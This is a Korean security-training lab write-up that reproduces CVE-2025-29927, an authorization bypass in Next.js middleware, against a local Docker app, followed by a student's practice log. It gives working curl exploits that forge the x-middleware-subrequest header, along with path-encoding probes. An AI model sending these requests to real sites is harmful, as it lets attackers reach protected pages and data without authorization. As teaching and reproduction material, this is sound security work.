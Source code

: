 # Next.js 미들웨어 인가 우회 (CVE-2025-29927)

> 화이트햇 스쿨 3기 - [김민수 (@idealinsane)](https://github.com/idealinsane)

[영어 버전(Chinese version)](https://github.com/vulhub/vulhub/tree/master/next.js/CVE-2025-29927/README.md)
[중국어 버전(Chinese version)](https://github.com/vulhub/vulhub/tree/master/next.js/CVE-2025-29927/README.zh-cn.md)

Next.js는 서버 사이드 렌더링 (Server-Side Rendering), 정적 사이트 생성 (Static Site Generation), 통합 라우팅 시스템 (Integrated Routing System) 등의 기능을 제공하는 인기 있는 React 기반 웹 애플리케이션 프레임워크입니다.
인증 (Authentication) 및 인가 (Authorization) 목적으로 **미들웨어 (Middleware)** 를 사용하도록 구성된 경우, 버전 14.2.25 이전 및 15.2.3 이전에서는 인가 우회 (Authorization Bypass) 취약점이 존재합니다.

이 취약점은 공격자가 `x-middleware-subrequest` 헤더를 조작하여 미들웨어 기반 보안 제어를 우회함으로써 보호된 자원과 민감한 데이터에 무단 접근할 수 있게 만듭니다.

**참고 자료 (References):**

- <https://github.com/advisories/GHSA-f82v-jwr5-mffw>
- <https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-29927>

<br/>

### 환경 설정 (Environment Setup)

다음 명령어를 실행하여 Next.js 15.2.2 기반의 취약한 애플리케이션을 시작합니다:

```
docker compose up -d
```

애플리케이션이 시작되면, `http://your-ip:3000` 주소를 방문할 때 로그인 페이지로 리디렉션됩니다. 기본 자격 증명인 `admin:password`를 입력하여 로그인하고 대시보드에 접근할 수 있습니다.

<br/>

### 취약점 재현 (Vulnerability Reproduction)

유효한 자격 증명 없이 대시보드에 직접 접근하려고 하면, 로그인 페이지로 리디렉션됩니다:

```bash
curl -i http://your-ip:3000
```

![](1.png)
취약점을 악용하려면, 요청에 `x-middleware-subrequest` 헤더를 추가하고 값으로 `middleware:middleware:middleware:middleware:middleware`를 설정합니다. 이로 인해 Next.js 미들웨어가 해당 헤더를 잘못 처리하여 인증 검사를 우회하게 됩니다:

```
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://your-ip:3000
```

![](2.png)

보시다시피, 대시보드에 인증 없이 접근이 가능합니다.

> 만약 이전 페이로드가 작동하지 않을 경우, `x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware` 헤더를 시도할 수도 있습니다.

## 실습 결과 (yeojin-206)
###정상요청
```bash
curl -i http://localhost:3000/admin
#307 Temporary Redirect

curl -i http://localhost:3000/%2fadmin 
#307 Temporary Redirect

curl -i http://localhost:3000/admin/. 
#308 Permanent Redirect

curl -i http://localhost:3000/admin%2f
#307 Temporary Redirect

curl -i http://localhost:3000/./admin
#307 Temporary Redirect

curl -i http://localhost:3000/_next/../admin
#307 Temporary Redirect

curl -i http://localhost:3000/admin..;/ 
#308 Permanent Redirect

curl -i http://localhost:3000/next%2exe/admin 
#307 Temporary Redirect
```
###비정상요청
```bash
curl -i http://localhost:3000/_next/%2e%2e/admin 
#404 Not Found
![](./abnormal.png)
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://localhost:3000
200 OK
![우회성공결과](./adnormal2.png)
```
